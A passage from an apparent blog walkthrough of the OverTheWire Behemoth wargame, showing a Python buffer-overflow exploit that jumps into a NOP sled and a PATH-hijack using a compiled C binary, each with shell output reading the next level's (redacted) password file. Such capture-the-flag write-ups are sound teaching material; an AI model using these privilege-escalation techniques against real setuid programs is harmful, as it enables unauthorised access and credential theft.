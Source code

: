 There it is, so picking an address right in the middle of our `nop` sled, we
can write an exploit script.

{% highlight python %}
# exploit.py
import struct

address = 0xffffd691

buf = 'A'*79
buf += struct.pack('<I', address)
print buf
{% endhighlight %}

We have to remember to keep `stdin` open since the binary will quit as soon as
it is closed and kill our shell. Adding a simple `cat` with no arguments will
do the trick.

{% highlight bash %}
behemoth1@melinda:/tmp/tremblingpants$ (python exploit.py; cat) | /behemoth/behemoth1 
Password: Authentication failure.
Sorry.
id
uid=13001(behemoth1) gid=13001(behemoth1) euid=13002(behemoth2) groups=13002(behemoth2),13001(behemoth1)
cat /etc/behemoth_pass/behemoth2
XXXXXXXXXX
{% endhighlight %}

## Level2 &rarr; Level3 {#level3}

![level3_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level3_binaryninja.png)

This program gets the current process id with `getpid` and then calls `touch`
on that pid, via `system`. However, the path to the binary is not specified
absolutely, so we can manipulate the PATH environment variable to make `touch`
do whatever we want. Unfortunately, we can't just write a bash script for this
because bash drops effective privileges; we'll have to write it in C.

{% highlight c %}
// touch.c
#include <stdlib.h>

void main() {
    system("cat /etc/behemoth_pass/behemoth3");
}
{% endhighlight %}

{% highlight bash %}
behemoth2@melinda:/tmp/coldrain$ gcc touch.c -o touch
behemoth2@melinda:/tmp/coldrain$ PATH=./:$PATH /behemoth/behemoth2 
XXXXXXXXXX
{% endhighlight %}
